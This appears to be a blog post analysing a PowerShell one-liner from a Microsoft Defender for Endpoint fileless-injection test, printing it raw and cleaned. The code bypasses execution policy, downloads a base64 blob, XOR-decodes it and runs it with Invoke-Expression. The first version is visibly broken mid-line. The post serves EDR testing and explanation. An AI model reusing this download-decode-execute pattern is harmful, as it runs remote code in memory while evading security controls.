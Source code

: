```yaml
---
title: Fileless Injection Analysis - EDR litmus test
description: Injection fileless
pubDate: Jan 6 2022
heroImage: /public/img/fileless.jpg
tags: ['malware','analysis','Inline C#']
categories: ['Malware']
---
```


This was taken from a Microsoft Defender for Endpoint ATP intro that tests fileless injection. 

I will go over the workings of the one-liner as it follows what I would consider the bare minimum required for mentality when utilizing powershell as a vector in todays threat landscape.

This is similar to Microsoft [AttackSimulationDIYv2](https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/AttackSimulationDIYv2.pdf) from back in 2016.

Here we go, I set the execution policy myself before running in a pwsh.exe elevated.

```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12;$xor    = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');$base64String =    Catch { $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3)) };$i = 0;    $decryptedBytes = @();$contentBytes.foreach{ $decryptedBytes += $_ -bxor $xor[$i];  $i++; if ($i -eq $xor.Length) {$i = 0} };Invoke-Expression  ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```

The one-liner has been cleaned for ease of understanding including using all man for brackets as it aids with understanding control flow. 

```powershell

#Bill Gates.ps1
Set-ExecutionPolicy Bypass -Scope Process -Force

[System.Net.ServicePointManager]::SecurityProtocol = [System.Net.ServicePointManager]::SecurityProtocol -bor 3072;

$xor = [System.Text.Encoding]::UTF8.GetBytes('WinATP-Intro-Injection');

$base64String = (Invoke-WebRequest -URI 'https://wcdstaticfilesprdeus.blob.core.windows.net/wcdstaticfiles/MTP_Fileless_Recon.txt' -UseBasicParsing).Content


try 
{ 
  $contentBytes = [System.Convert]::FromBase64String($base64String);
} 
catch 
{ 
  $contentBytes = [System.Convert]::FromBase64String($base64String.Substring(3));
}

$i = 0;
$decryptedBytes = @();

$contentBytes.foreach{ 
  $decryptedBytes += $_ -bxor $xor[$i];
  $i++;
  if ($i -eq $xor.Length) {
    $i = 0;
  } 
}

Invoke-Expression  ([System.Text.Encoding]::UTF8.GetString($decryptedBytes))
```